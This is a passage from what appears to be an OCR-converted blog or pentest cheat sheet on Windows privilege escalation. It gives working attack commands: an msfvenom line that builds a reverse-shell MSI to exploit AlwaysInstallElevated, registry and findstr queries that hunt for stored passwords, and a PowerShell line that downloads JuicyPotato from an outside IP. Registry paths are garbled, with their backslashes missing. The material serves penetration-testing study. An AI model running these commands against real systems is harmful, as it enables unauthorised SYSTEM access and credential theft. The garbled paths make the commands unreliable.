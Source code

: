 Manually, all you need is to run below command to check the registry
policy.

reg query HKLMSOFTWAREPoliciesMicrosoftWindowsInstaller /v
AlwaysInstallElevated

reg query HKCUSOFTWAREPoliciesMicrosoftWindowsInstaller /v
AlwaysInstallElevated

Note that REG_DWORD is set to 1\
Next step is to generate a reverse shell using msfvenom of file type
msi.

msfvenom -p windows/x64/shell_reverse_tcp LHOST=\<You systen IP\>
LPORT=\<Your system port\> -f msi -o kumar.msi

Transfer and run this msi file into the target system. It will give nt
authoritysystem level access.

## **Insecure Storage**

It is a good idea to check if any file contains hardcoded credentials in
cleartext. WinPEAS tries to grep user and password strings in the file
system, and it will give a list of files that contain user and password.

[[Findstr]{.underline}](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)
tool can be used to check for specific strings on the target machine.

findstr /spin \"credentials\" \*.\*

Other than the file system, it is also possible that the vendor has kept
credentials in registry.

reg query HKLM /f password /t REG_SZ /s

To narrow down the result you can check for some specific registry

reg query \"HKLMSOFTWAREMicrosoftWindows NTCurrentversionWinlogon\"

reg query \"HKLMSYSTEMCurrentControlSetServicesSNMP\"

reg query \"HKCUSoftwareSimonTathamPuTTYSessions\"

reg query \"HKCUSoftwareORLWinVNC3Password

In the next blog we will look into more ways to perform privilege
escalation attack on Windows machine.

## **juice potato**

-   Check juice potato work or not with command \"Whoami /priv\". If
    > SeImpersonatePrivilege is enabled yes . you can exploit that.

-   powershell \"IEX(New-Object
    > Net.WebClient).downloadFile(\'[[http://192.168.119.161:8000/JuicyPotato.exe\',\'C:\\test\\JuicyPotato.exe]{.underline}](http://192.168.119.161:8000/JuicyPotato.exe','C:%5Ctest%5CJuicyPotato.exe)\')\"
    > -bypass executionpolicy
